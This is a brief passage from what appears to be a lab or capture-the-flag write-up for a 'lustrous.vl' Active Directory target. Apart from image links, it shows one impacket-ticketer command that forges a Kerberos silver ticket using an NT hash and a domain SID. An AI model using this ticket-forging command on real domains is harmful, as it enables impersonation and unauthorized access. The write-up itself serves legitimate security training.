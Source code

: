 <img src="attachments/ed43dbb84761d03a2c0dfd091e3a6d75.png" />

Using `impacket-ticket`, we forged a silver ticket.

```
impacket-ticketer -nthash '69596C7AA1E8DAEE17F8E78870E25A5C' -domain-sid 'S-1-5-21-2355092754-1584501958-1513963426' -domain lustrous.vl -spn 'http/lusdc.lustrous.vl' -dc-ip 10.10.155.53 -user-id 1114 'tony.ward'
```

<img src="attachments/15e8a66a718bd299f961a23d9dbae3e7.png" />

We successfully forged the ticket; however, we couldn't access the URL even though the ticket was exported from Falcon.
